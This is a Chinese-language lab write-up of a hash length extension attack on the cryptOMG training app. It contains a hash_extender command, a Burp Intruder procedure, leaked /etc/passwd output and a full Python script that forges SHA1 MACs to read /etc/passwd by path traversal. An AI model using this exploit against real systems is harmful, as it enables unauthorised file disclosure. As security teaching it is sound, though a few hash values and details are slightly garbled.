

# Hash Length Extension Attack
 ## Preparation
 - Step 1. 拉取镜像并直接在linux运行  
 `sudo docker run -d --name cryptomg -p 8082:80 c4pr1c3/docker-cryptomg`  
 - Step 2. 打开浏览器（推荐 Google Chrome 或 Mozilla Firefox 最新版）访问 http://127.0.0.1:8082/ctf/
 - Step 3. 完成 challenge5 （对应 Hash Length Extension Attack 实验）  

 ## Introduction
 cryptOMG 是一个易受攻击的应用程序，第五个挑战为哈希长度扩展攻击    
 - 准备
  ubuntu 20.04
  Firefox 浏览器，配置 Burp 代理    
 ## 实验
 ### 理论 
 访问 http://192.168.56.101:8083/ctf/ 打开页面，能看到：  

   

 这是基于访问服务器上的文件的挑战，可以推测挑战似乎是本地文件包含 (LFI) 以查看 /etc/passwd 的内容。  
 选择"Challenge 5"为我们提供了以下信息：    
 

   

 选择 SHA1，点击 test，能看到参数：   
 algo=sha1&file=test&hash=dd03bd22af3a4a0253a66621bcb80631556b100e    
 点击 hello：      
 algo=sha1&file=hello&hash=93e8aee4ec259392da7c273b05e29f4595c5b9c6     
 最后，点击 pictures，能看到相同的两个参数有不同的值，但是算法没有变     
 algo=sha1&file=pictures&hash=4990d1bd6737cf3ae53a546cd229a5ff05f0023b    
 所有其他的链接都是相似的，向 Burp Repeater 发送 "test" GET request，点击 Go，我们会看到以下响应：    

   
  
 一个基本的请求是站点提供一个 "200 OK" 的响应码，并且可能是 HTML body 中 "test" file 的内容。无论文件名输入的大小如何，输出的大小都是相同的，这告诉我们可能正在使用哈希算法，同样，输出长度为 40 个十六进制字符，或 160 位。假设使用的哈希算法是 SHA1。在这种情况下，应用程序实际上告诉我们它是，但这是基于固定长度输出的安全猜测。   
 通过计算，`echo -n test | sha1sum`   
 用 SHA1 算法计算得到的 test  散列值为caa44616eed54257deeedb6b3508cefae7d4666d     
 同理，hello is d8ef3b7d2e6a8a6fdb8307dbc09759a5d1558epictures is f7e22d3af5c9cd78567ed92d425695d33dcfe5d8.    

     
   
 计算得到的值与服务器收到的值不匹配，因此，这个应用程序肯定是在对其他文件做哈希，或者是向散列添加文件名之外的内容，因此可以推测，需要解决的是消息验证码 Message Authentication Code (MAC) 的问题。这是将已知值附加到秘密值并且能得到散列结果的地方。事实证明，这种创建 MAC 的形式很容易受到哈希长度扩展攻击。  
 易受哈希长度扩展攻击的算法包括 MD4, MD5, RIPEMD-160, SHA-0, SHA-1, SHA-256, SHA-512, WHIRLPOOL。 他们使用 Merkle–Damgård 长度填充。SHA-3 和 keyed-Hash Message Authentication Code (HMAC) 不易受到这种攻击。   
 这就是哈希长度扩展攻击的原理。如果服务器基于易受攻击的哈希算法创建了消息验证码(MAC)，那么攻击者就可以通过控制附加到消息验证码的参数来创建一个合法的 MAC 值。   
 举个例子，一个应用程序允许用户选择文件 (user controller value) 然后下载他们购买的歌曲内容，所以 MAC 是：  
 `HASH_FUNCTION(secret || file_name)`    
 || 是两个值的串联。问题在于，如果 MAC 由与文件名相连的秘密信息散列得到，攻击者可以附加另一个值，并且在不知道秘密信息的情况下就能够创建一个合法的哈希值，这可以通过填充来实现，攻击者要做的就是改变输入：   
 `HASH_FUNCTION(secret || file_name || padding || append_value) `    
 这也是个合法的 MAC，但是不同于第一个，关键是这个伪造的 MAC 值可以通过服务器的 MAC 检查。如果攻击者知道密钥的长度，或者通过反复试验根据服务器响应确定密钥的长度，这种攻击方法效果最好。这种攻击的关键是攻击者获得了初始值和签名。攻击者能够知道或者猜测出秘密信息的长度和算法，应用程序将使用 MAC 验证返回的数据并接受通过此检查的值。然后，应用程序将处理攻击者的附加值。也就要求附加值对应用程序有意义并且对攻击者有用。    
 如果这是 HAMC，我们将需要密文。暴力破解它需要一定的时间，所以可以尝试用哈希长度扩展攻击。在不知道密文的情况下，我们可以附加到 "file" 参数并尝试使用本地文件包含 (LFI) 攻击进行目录遍历。我们只需要创建一个有效的哈希值。所以我们想要的参数需要看起来像：  
 `algo=sha1, file=test/../../../../etc/passwd, and hash=??`     
 问题在于，我们不知道密文也不知道密文长度，这就需要将数据附加到输入参数的内容，哈希值的计算应该是：`sha1(secret||filename)`    
 这种攻击的关键在于如果我们利用这个漏洞，就可以在不知道加密信息的情况下附加值到文件名仍然能够生成合法的散列值。然而，我们必须要猜测加密信息长度，或者暴力破解它。 在这种情况下，假设加密信息长度在 10 到 40 个字节之间。   

 ### 攻击操作

 - 使用 [hash_extender](https://github.com/iagox86/hash_extender/tree/master)，由 git 下载到 linux   

    

 - 首先运行不带参数的 ./hash_extender 以查看语法   
  
    
   
 - 运行以下命令会得到一些文件名和哈希值来进行尝试:   
 `./hash_extender -f sha1 --data 'test' -s dd03bd22af3a4a0253a66621bcb80631556b100e --append '../../../../../../../../../etc/passwd' --secret-min=10 --secret-max=40 --out-data-format=html --table > signatures-n-strings.out`    

    
 
 - 通过 Burp Intruder 运行 hash_extender 的结果   
 需要注意的是将签名放在一个文件中，将字符串放在另一个文件中，两者都用作 Burp Intruder 上 Pitchfork 的 payloads     

   

 如果没有攻击成功，会看到以下响应：   
 `file not found`   

   
 
 点击 start attack，我们能看到 200 响应码表明可能通过了 MAC 检查   

     
   
    

  

 ```
 root:x:0:0:root:/root:/bin/bash<br />
 daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin<br />
 bin:x:2:2:bin:/bin:/usr/sbin/nologin<br />
 sys:x:3:3:sys:/dev:/usr/sbin/nologin<br />
 sync:x:4:65534:sync:/bin:/bin/sync<br />
 games:x:5:60:games:/usr/games:/usr/sbin/nologin<br />
 man:x:6:12:man:/var/cache/man:/usr/sbin/nologin<br />
 lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin<br />
 mail:x:8:8:mail:/var/mail:/usr/sbin/nologin<br />
 news:x:9:9:news:/var/spool/news:/usr/sbin/nologin<br />
 uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin<br />
 proxy:x:13:13:proxy:/bin:/usr/sbin/nologin<br />
 www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin<br />
 backup:x:34:34:backup:/var/backups:/usr/sbin/nologin<br />
 list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin<br />
 irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin<br />
 gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin<br />
 nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin<br />
 libuuid:x:100:101::/var/lib/libuuid:<br />
 syslog:x:101:104::/home/syslog:/bin/false<br />
 mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false<br />
 ```
 这样我们就知道了 secret 长度为 34 字节。表明攻击成功了，在不知道 34 个字符的密码的情况下，仍然能够通过哈希长度扩展攻击来获取 /etc/passwd 的内容。这个例子的好处在于实际上有三个单独的漏洞被一起使用来形成攻击：哈希长度扩展、本地文件包含和目录遍历。  
 
 ### Python code——alternative to hash_extender  
 ```
 #!/usr/bin/env python
 # Brute forcing script to solve CryptOMG Challenge 5 using hlextend Hash Length Extension Python module
 from urllib.parse import quote
 import requests
 import socket
 import sys
 import time
 from html.parser import HTMLParser
 import hlextend


 site ='http://192.168.56.101:8083/ctf/challenge5/index.php' 
 hashAlg = 'sha1'
 startHash = 'dd03bd22af3a4a0253a66621bcb80631556b100e'
 fileName = 'test'

 appendData = '../../../../../../../../../../../../../../etc/passwd'
 params = { 'algo' : hashAlg }

 cookies = { 'PHPSESSID' : 'gs6mfb7t83jn77nbehcs8rmgi3' }  
 proxies = { 'http' : 'http://127.0.0.1:8080',  'https' : 'https://127.0.0.1:8080' } 

 try:
     proxies
 except:
     proxies = {}

 try:
     cookies
 except:
     cookies = {}

 reqsettings = { 'proxies' : proxies, 'stream' : False, 'timeout' : 5, 'verify' : False, 'cookies' : cookies }

class HParser(HTMLParser):
    '''HTML parser to extract from div:content and h1 tags'''

    def __init__(self):
        HTMLParser.__init__(self)
        global inHtag
        global inDtag
        self.outData = ''
        self.divData = ''
        inHtag = False
        inDtag = False


    def handle_starttag(self, tag, attrs):
        global inHtag
        global inDtag

        if tag == 'h1':
            inHtag = True
        elif tag == 'div':
            if (self.get_starttag_text().find('content') > -1):
                inDtag = True
    
    def handle_endtag(self, tag):
        global inHtag
        global inDtag

        if tag == "h1":
            inHtag = False
        elif tag == "div":
            inDtag = False

    def handle_data(self, data):
        global inHtag
        global inDtag

        if inHtag:
            self.outData = self.outData + data
            #self.outData.append(data)
        elif inDtag:
            self.divData = self.divData + data
            

    def close(self):
        return [ self.outData, self.divData ]

sessions = requests.Session()

for length in range(3, 60):
    sha = hlextend.new(hashAlg)
    append = sha.extend(appendData, fileName, length, startHash, raw=True)
    newHash = sha.hexdigest()

    params['file'] = append
    params['hash'] = newHash
    reqsettings['params'] = params

    while 1:
        try:
            response = sessions.get(site, **reqsettings)
            break
        except (socket.error, requests.exceptions.RequestException):
            time.sleep(1)
            continue

    parser = HParser()
    parser.feed(response.text)
    [ out, divdata ] = parser.close()
    
    noResult = False
    
    if out.find('File not found') > -1:
        noResult = True

    if not noResult:
        print ('Length of secret: ' +  str(length))
        print ('Parameter value for file: ' +  quote(append))
        print ('Parameter value for hash: ' + newHash)
        print ('File contents: ')
        print (divdata[6:])
        sys.exit(0)
 ```

 ## References
 [Hash-length-extension attack guide ](https://isc.sans.edu/diary/Modern+Web+Application+Penetration+Testing+%2C+Hash+Length+Extension+Attacks/22792)  
 [Hash_extender](https://github.com/iagox86/hash_extender/tree/master)  
 [How to use Burp pitchfork intruder](https://portswigger.net/burp/documentation/desktop/tutorials/credential-stuffing-pitchfork-intruder)  
 [Knowledge about hash length extension attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks)    
 [Pure Python Hash Length Extension module](https://github.com/stephenbradshaw/hlextend)    
 [Whitehatsec.Hash-Length-Extension-Attacks](https://www.whitehatsec.com/blog/hash-length-extension-attacks/)   
 

  


